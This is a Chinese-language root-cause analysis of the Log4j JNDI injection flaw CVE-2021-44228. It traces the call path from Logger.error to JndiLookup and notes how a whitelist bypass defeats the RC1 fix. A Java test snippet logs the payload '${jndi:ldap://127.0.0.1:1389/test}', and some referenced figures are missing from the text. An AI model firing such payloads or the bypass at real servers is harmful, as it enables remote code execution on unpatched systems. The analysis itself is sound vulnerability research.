




# CVE-2021-44228 远程代码执行
- [CVE-2021-44228 远程代码执行](#cve-2021-44228-远程代码执行)
  - [影响范围](#影响范围)
  - [原理分析](#原理分析)
    - [日志等级](#日志等级)
    - [${ Replace](#-replace)
    - [Lookup->RCE](#lookup-rce)
  - [RC1 Bypass](#rc1-bypass)
## 影响范围
Version < 2.15.0-rc2
## 原理分析
该漏洞主要是由于Log4j提供一个lookup功能来进行远程配置文件的加载,而该lookup功能支持jdni协议,并且lookup的参数无过滤和限制造成JNDI注入.
该漏洞触发点较多,以Logger.error()方法为例,测试代码如下
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class main {
    private  static final Logger LOGGER = LogManager.getLogger();
    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/test}");
    }
    }

```
### 日志等级
在error方法中首先调用`logIfEnabled`来判断日志功能是否开启.

其中第二个参数`Level.ERROR`即日志等级为`ERROR等级(200)`.

关于不同的日志等级定义在`StandardLevel`中,如下

在`logIfEnabled`中调用`isEnabled`来判断是否开启日志功能,同时把日志等级(200)传入,只有返回为true才会进入到后续的日志记录方法`logMessage`中.

而在`isEnabled`中最后是调用了`org/apache/logging/log4j/core/Logger.java#filter`进行判断.

可以看到需要满足` intLevel >= level.intLevel()`,也就是要小于等于200,而从前面的日志等级可以看出小于等于200的,还有`FATAL`,OFF为0,即不会进行任何记录操作.  
### ${ Replace
在后续的日志记录方法中一路跟到`MessagePatternConverter.java#format`方法中,
在`format`方法中经过一个`if (config != null && !noLookups)`判断进入for循环,其中`noLookups`默认为false,即`!noLookups`为true,即允许lookup.

在循环中对message信息字符串进行遍历,如果遇到以`${`开头的部分则提取其中的部分调用`config.getStrSubstitutor().replace`进行替换.
### Lookup->RCE
在`replace`中主要是调用了两次`substitute`方法,一直来到`substitute`的1033行,调用`resolveVariable`来处理之前从`${}`中提取的字符串.

在`resolveVariable`中则直接调用`StrLookup.lookup`方法.

在其`lookup`方法中根据前四个字符来决定使用的协议.

其中支持的协议如下

可以看到支持JNDI协议,而此时的name变量即是`${}`当中的字符串,根据前四个字符为`JNDI`,最后调用`jndiLookup.lookup`造成了JDNI注入.

调用栈如下:

## RC1 Bypass
1. 需要用户手动开启lookup功能
2. RC1 对LDAP地址进行了白名单校验,但白名单校验的catch 未return,导致可以构造异常进入catchd段跳过白名单校验.